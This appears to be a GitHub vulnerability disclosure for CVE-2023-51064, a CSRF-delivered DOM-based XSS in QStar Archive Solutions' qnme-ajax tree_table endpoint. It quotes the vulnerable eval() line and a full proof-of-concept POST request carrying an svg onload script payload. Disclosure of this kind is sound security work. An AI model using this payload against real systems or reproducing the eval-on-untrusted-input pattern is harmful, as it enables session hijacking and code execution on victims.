 > [Suggested description]
> QStar Archive Solutions Release RELEASE_3-0 Build 7 Patch 0 was
> discovered to contain a Cross-Site Request Forgery (CSRF) via the
> component qnme-ajax?method=tree_table.
>
> ------------------------------------------
>
> [Vulnerability Type]
> Cross Site Request Forgery (CSRF)
>
> ------------------------------------------
>
> [Vendor of Product]
> QStar
>
> ------------------------------------------
>
> [Affected Product Code Base]
> QStar Archive Solutions - Release RELEASE_3-0 Build 7 Patch 0
>
> ------------------------------------------
>
> [Affected Component]
> qnme-ajax?method=tree_table
>
> ------------------------------------------
>
> [Attack Type]
> Remote
>
> ------------------------------------------
>
> [Impact Code execution]
> true
>
> ------------------------------------------
>
> [Impact Escalation of Privileges]
> true
>
> ------------------------------------------
>
> [Attack Vectors]
> to exploit this vulnerability, an attacker must craft a CSRF exploit and socially engineer the victim to click on a link. The CSRF exploit must have the POST request to exploit the XSS vulnerability.
>
> ------------------------------------------
>
> [Discoverer]
> Sean Bales
>
> ------------------------------------------
>
> [Reference]
> http://qstar.com

## CVE-2023-51064

### Description
QStar Archive Solutions Release RELEASE_3-0 Build 7 Patch 0 was discovered to contain a DOM Based reflected XSS vulnerability within the component `qnme-ajax?method=tree_table`.

### Vulnerability Type
XSS 

### Vendor of Product
QStar

### Affected Product Code Base
QStar Archive Solutions - Release RELEASE_3-0 Build 7 Patch 0

### Exploitation
to exploit this vulnerability, an attacker must craft a CSRF exploit and socially engineer the victim to click on a link. The CSRF exploit must have the POST request to exploit the XSS vulnerability.

### PoC 

> Vulnerable Code - ./qstar.js
```js
line 256 -> return eval("("+data+")");
```

> HTTP Post Request

```
POST /qnme-ajax?method=tree_table HTTP/1.1
Host: 10.0.10.5:7777
Cookie: PHPSESSID=XXXXXX; QNMSESSID=XXXXXXXX; undefined=XXXXXXX; browser=1; fs_agent=2%7C2%7C3; active=fs_agent; fs=1%7C2%7C1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://10.0.10.5:7777/qnme-browser
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 176
Origin: https://10.0.10.5:7777
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

args%5Bcheck%5D=0&args%5Bhelper%5D=browser&args%5Bparent%5D=1<html><body><svg onload=alert(1)>&args%5Blevel%5D=1&args%5Bkey%5D=undefined&args%5BisFiles%5D=1&args%5Block%5D=true
```

![img2](img/img2.png)